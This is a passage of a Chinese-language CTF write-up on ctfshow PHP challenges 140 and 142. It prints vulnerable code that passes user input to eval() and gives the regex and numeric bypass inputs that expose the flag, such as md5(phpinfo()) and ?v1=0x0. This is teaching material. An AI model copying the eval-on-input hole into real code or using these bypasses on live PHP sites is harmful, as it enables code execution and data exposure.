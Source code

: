 ## 140-正则绕过

```php
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}
```

![](https://s2.loli.net/2022/01/03/W4slgufqeiK8mMr.png)只要让`intval($code)=0`就可以符合条件了，而intval会将非数字字符转换为0
 那么就构造吧：`code=eval(return $f1($f2());)`，就会执行函数了，外面那层可以用加密函如md5、sha1

```
md5(phpinfo())
md5(md5())
md5(sleep())
current(localeconv)
sha1(getcwd())
```

## 142

```php
if(isset($_GET['v1'])){
    $v1 = (String)$_GET['v1'];
    if(is_numeric($v1)){
        $d = (int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d);
        sleep($d);
        echo file_get_contents("flag.php");
    }
}
```

会sleep很久很久--，那么就是要传入v1使得其为0，直接输出flag
 0和0x0绕过
 这里可以过是因为0和0x0被当成了8进制和16进制

```
?v1=0
?v1=0x0
```



## 141、143、144、145、146-数学运算
